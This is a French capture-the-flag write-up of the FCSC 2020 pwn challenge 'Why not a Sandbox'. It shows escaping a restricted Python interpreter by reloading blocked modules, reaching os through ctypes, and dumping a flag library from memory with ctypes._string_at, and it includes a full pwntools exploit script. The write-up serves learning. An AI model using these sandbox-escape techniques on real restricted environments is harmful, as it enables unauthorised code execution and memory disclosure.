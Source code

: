 ```yaml
---
title: "Why not a Sandbox"
subtitle: "Challenge de Pwn du FCSC 2020"
published: true
author: "Bdenneu"
ctf: "FCSC"
annee: "2020"
---
```


# L'énoncé

Votre but est d'appeler la fonction print_flag pour afficher le flag.

Service : nc challenges1.france-cybersecurity-challenge.fr 2001

# Etat des lieux

En arrivant sur la machine, on voit que certains imports de librairies sont bloqués. On a cependant accès à sys. On peut alors se demander quels sont les modules déjà chargés :

![](/assets/images/FCSC2020/Sandbox/1.png)

J’ai trouvé un moyen de recharger les librairies par défaut. En fouillant dans le garbage collector, on ne trouve pas d’allusion à print_flag, donc la fonction ne se cache pas dans le python. Vu que os est rechargé, on a un shell sur la machine. Aussi, on pouvait avoir os via ctypes (ctypes._os).

![](/assets/images/FCSC2020/Sandbox/2.png)

![](/assets/images/FCSC2020/Sandbox/3.png)

![](/assets/images/FCSC2020/Sandbox/10.png)

Nous sommes donc dans spython et il le flag est surement dans lib_flag.so. Cependant, nous n’avons pas les droits pour le lire. Malgré la permission s sur spython, il ne permettra pas de devenir ctf-init vu qu’un setuid / setreuid sont effectués au lancement.

![](/assets/images/FCSC2020/Sandbox/4.png)

Aussi, en créeant une chaine de bytes, j’ai vu qu’elle était placée un peu avant les libs importées. Du fait qu’on puisse lire les chaines de caractères en mémoire, j’ai bruteforce l’offset autour de la chaine qu’on a récupéré pour récupérer la lib flag en mémoire.

![](/assets/images/FCSC2020/Sandbox/5.png)

```python
from pwn import *
import re

r = remote('challenges1.france-cybersecurity-challenge.fr',4005)
print(r.recvuntil('>>>'))

#leak memory
r.sendline('import ctypes')
print(r.recvuntil('>>>'))
r.sendline('x=b"print_flag"')
print(r.recvuntil('>>>'))
r.sendline('c_s = ctypes.c_char_p(x)')
print(r.recvuntil('>>>'))
r.sendline('c_s')
data = r.recvuntil('>>>')
print(data)
leaked = (int(re.findall(b'c_char_p\(([0-9]*)\)\r\n',data)[0])>>12)<<12
print("leaked libc=0x%08x"%leaked)

offset = 0x690000
jump = 0x10000
data = b""

while not(b"ELF" in data):
    print("Currently at: 0x%0x"%(leaked+offset))
    r.sendline('print(ctypes._string_at('+str(leaked+offset)+','+str(jump)+'))')
    data = r.recvuntil('>>>')
    if b'ELF' in data:
        break
    offset += jump

r.sendline('x=ctypes._string_at('+str(leaked+offset)+',0x100000)')
data = r.recvuntil('>>>')

#reload modules
r.sendline('import sys')
print(r.recvuntil('>>>'))
r.sendline('sys.meta_path[2].find_distributions()')
print(r.recvuntil('>>>'))
r.sendline('import binascii')
print(r.recvuntil('>>>'))

print("binascii: ")
print("===========================================")
r.sendline('binascii.hexlify(x)')
data = r.recvuntil('>>>')
with open('lib_flag.so','wb') as f:
    f.write(data)

```

On récupere ainsi lib_flag.so:

![](/assets/images/FCSC2020/Sandbox/7.png)

On peut ainsi y voir la superbe fonction print_flag :

![](/assets/images/FCSC2020/Sandbox/8.png)

À partir de la, soit on lit l’assembleur (il ne s’agit que d’un xor et une boucle après tout), soit on récupère les instructions et on les exécute dans notre debugger :

# Flag

![](/assets/images/FCSC2020/Sandbox/9.png)


